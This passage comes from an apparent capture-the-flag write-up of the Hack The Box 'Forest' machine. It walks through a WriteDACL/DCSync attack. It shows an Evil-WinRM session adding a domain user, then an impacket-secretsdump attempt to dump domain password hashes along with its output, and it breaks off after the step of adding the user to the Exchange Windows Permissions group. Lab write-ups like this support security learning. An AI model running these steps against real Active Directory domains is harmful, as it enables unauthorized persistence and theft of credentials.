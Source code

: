 ![](assets/img/htb/forest/info1.png)
### write dacl attack
to perform this attack first I'll create a new user on the domain 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user s3ntrysec password123 /add /domain
The command completed successfully.
```

first if I try secretsdump with the user I created, this gives an access denied error but when the dcsync attack is performed I will be able to see the hashes from another users

```bash
$ impacket-secretsdump htb.local/s3ntrysec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

to do this first I have to add then new user to the group exchange windows permissions 

![](assets/img/htb/forest/path3.png)

